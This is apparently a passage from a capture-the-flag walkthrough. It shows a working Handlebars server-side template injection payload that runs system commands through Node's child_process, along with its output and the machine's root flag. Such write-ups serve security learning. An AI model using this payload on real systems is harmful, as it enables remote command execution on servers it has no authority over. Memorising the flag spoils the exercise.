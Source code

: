 <br>

#### By exploiting this vulnerability, we get command execution as the user the webserver is running as. What is the name of that user?

```
root
```

I attempted to run system commands now by running the following payload (of course I needed to URLencode it first through Burpsuite Decoder)

```js
{{#with "s" as |string|}}
 {{#with "e"}}
 {{#with split as |conslist|}}
 {{this.pop}}
 {{this.push (lookup string.sub "constructor")}}
 {{this.pop}}
 {{#with string.split as |codelist|}}
 {{this.pop}}
 {{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
 {{this.pop}}
 {{#each conslist}}
 {{#with (string.sub.apply 0 codelist)}}
 {{this}}
 {{/with}}
 {{/each}}
 {{/with}}
 {{/with}}
 {{/with}}
{{/with}}
```

The system command successfully returned `root`, meaning that I have run the system commands on the box and also that the web server is running in the context of the `root` user.

<br>

#### Submit root flag

```
6b258d726d287462d60c103d0142a81c
```

```js
{{#with "s" as |string|}}
 {{#with "e"}}
 {{#with split as |conslist|}}
 {{this.pop}}
 {{this.push (lookup string.sub "constructor")}}
 {{this.pop}}
 {{#with string.split as |codelist|}}
 {{this.pop}}
 {{this.push "return process.mainModule.require('child_process').execSync('ls /root');"}}
 {{this.pop}}
 {{#each conslist}}
 {{#with (string.sub.apply 0 codelist)}}
 {{this}}
 {{/with}}
 {{/each}}
 {{/with}}
 {{/with}}
 {{/with}}
{{/with}}
```
